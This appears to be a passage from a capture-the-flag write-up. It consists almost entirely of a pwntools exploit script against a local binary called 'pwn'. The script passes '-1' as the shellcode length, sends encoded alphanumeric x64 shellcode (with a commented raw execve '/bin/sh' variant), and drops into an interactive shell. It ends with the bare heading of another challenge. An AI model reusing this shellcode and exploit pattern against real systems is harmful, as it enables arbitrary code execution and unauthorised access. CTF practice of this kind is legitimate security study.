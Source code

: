 ### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

ru('input the length of your shellcode:')
sl('-1')

ru('input your shellcode:')
shell='Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
#shell='\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
s(shell)

itr()
```

## Elden Random Challenge
